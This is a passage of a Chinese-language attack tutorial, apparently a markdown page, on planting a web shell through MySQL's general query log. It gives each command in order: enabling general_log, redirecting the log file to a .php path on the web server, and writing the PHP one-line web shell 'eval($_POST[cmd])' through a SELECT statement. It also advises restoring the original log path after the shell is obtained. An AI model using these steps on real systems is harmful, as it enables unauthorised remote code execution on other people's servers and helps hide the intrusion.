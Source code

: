 ### 二、利用全局日志写shell

#### 1、查看配置

查看mysql的日志状态，默认是关闭的，因为这个日志的量非常大对资源是一个比较大的开销

```sql
SHOW VARIABLES LIKE '%general%';
```

general_log_file为日志保存的位置

<img src=".\图片\Snipaste_2023-02-11_12-59-43.png" alt="Snipaste_2023-02-11_12-59-43" style="zoom:80%;" />

#### 2、开启general_log模式

开启general_log 的作用：开启它可以记录用户输入的每条命令，会把其保存在C:\phpStudy\MySQL\data\fuckyou.log的文件中，其实就是我们常说的日志文件利用思路：开启general_log之后把general_log_file的值修改为该网站默认路径下的某一个自定义的php文件中，然后通过log日志进行写入一句话木马，然后再进一步利用

这里注意：在修改log路径前，源路径一定要提前记录下来，我们获取shell后还要恢复原来的路径

```
set global general_log = on;
```

#### 3、修改日志目录为shell地址

```
set global general_log_file='D:\\phpStudy\\MySQL\\data\\shell.php';
```

#### 4、写入shell

因为开启了日志记录功能，所执行的sql语句都会被记录在日志中

```
select '<?php eval($_POST[cmd]);?>';
```
